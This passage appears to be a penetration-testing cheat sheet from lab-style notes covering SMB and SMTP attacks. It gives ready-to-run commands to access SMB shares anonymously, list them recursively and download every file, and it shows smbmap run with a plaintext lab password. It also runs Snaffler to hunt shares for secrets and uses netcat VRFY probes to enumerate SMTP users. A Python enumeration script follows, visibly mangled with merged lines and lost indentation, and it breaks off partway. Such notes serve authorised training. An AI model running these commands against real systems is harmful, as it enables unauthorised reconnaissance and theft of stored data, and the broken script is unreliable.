 >[!code]- Connect to a share
>###### smbclient
>```powershell
>smbclient -N //192.168.24.168/share/  # Anonymous
>smbclient -U 'username' //192.168.24.168/share/   # Authenticated
>```

>[!code]- Recursively list files
>###### smbclient
>```powershell
>smbclient -N //10.10.10.100/sharename -c 'recurse;ls'
>```
>###### smbmap
>```powershell
>bubbleman@htb$ smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R 'Department Shares' [--dir-only]
>```

>[!code]- Recursively download files
>###### smbclient
>```powershell
>smbclient -N //10.10.10.100/Replication
>mask ""
>recurse ON
>Prompt OFF
>mget *
>```

>[!code]- Snaffler
>###### Execute
>```powershell
>Snaffler.exe -s -d inlanefreight.local -o snaffler.log -v data
>```
#### SMTP

>[!info]- Info - The Simple Mail Transport Protocol (SMTP) is a mail server for delivering emails

>[!code]- Enumerate valid users
>The following example shows how the server will confirm or deny whether a particular user exists:
>```bash
>kali@kali:~$ nc -nv 192.168.50.8 25
>(UNKNOWN) [192.168.50.8] 25 (smtp) open
>220 mail ESMTP Postfix (Ubuntu)  
>VRFY root  
>252 2.0.0 root  
>VRFY idontexist
550 5.1.1 \<idontexist\>: Recipient address rejected: User unknown in local recipient table  
>^C
>```
>___
>A Python script which opens a TCP socket, connects to the SMTP server, and issues a VRFY command for a given username.
>>[!code]- smtp.py
>>```python
>>#!/usr/bin/python
>>
>>import socket import sys
>>
>>if len(sys.argv) != 3:  
>>print("Usage: vrfy.py \<username> <target_ip>") sys.exit(0)
>>
>># Create a Socket  
>>s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
>>
>># Connect to the Server  